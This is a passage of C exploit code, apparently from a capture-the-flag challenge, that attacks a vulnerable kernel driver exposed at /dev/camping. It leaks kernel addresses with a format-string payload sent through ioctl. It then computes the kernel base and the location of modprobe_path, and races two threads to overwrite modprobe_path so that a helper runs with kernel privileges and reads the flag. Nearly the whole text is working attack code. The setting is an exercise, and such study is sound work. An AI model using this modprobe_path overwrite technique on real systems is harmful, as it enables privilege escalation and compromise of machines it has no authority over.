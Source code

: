 ```c
    }

    puts("[+] readflag");
    system("cat /tmp/flag");

    exit(0);
}

void *switcher() {
    while (!success) {
        payload.location = (unsigned long) &dummy_decoration;
        payload.decoration[0] = 'A';
        payload.decoration[4] = 'A';
        ioctl(fd, KINTRO, &payload);
        
        payload.location = modprobe_path;
        payload.decoration[0] = '/';
        payload.decoration[4] = '/';
        ioctl(fd, KINTRO, &payload);
        
        exec_modprobe();
    }
}

void *visit() {
    while (!success) {
        ioctl(fd, KVISIT, NULL);
        exec_modprobe();   
    }
}

int main(int argc, char *argv[]){
    setvbuf(stdout, NULL, _IONBF, 0);
    prep_modprobe();

    fd = open("/dev/camping", O_RDWR);
    if (fd < 0){
        perror("[-] open");
        return 1;
    }
    printf("[+] Device opened successfully, fd: %d\n", fd);

    for(int i = 0x0; i < BUFFER_SIZE/4; i++) {
        strcat(payload.name, "%lx\n");
    }

    if (ioctl(fd, KINTRO, &payload) != 0){
        perror("[-] ioctl KINTRO");
        return 1;
    }

    if (ioctl(fd, KGREET, NULL) != 0) {
        perror("[-] ioctl KGREET");
        return 1;
    }

    printf("[!] enter kernel addr: ");
    scanf("%lx", &kbase);
    kbase = kbase - 0x2ab902;
    modprobe_path = kbase + 0x1b3f3c0;

    printf("[+] Kernel Base: %#lx\n", kbase);
    printf("[+] Modprobe Path: %#lx\n", modprobe_path);
```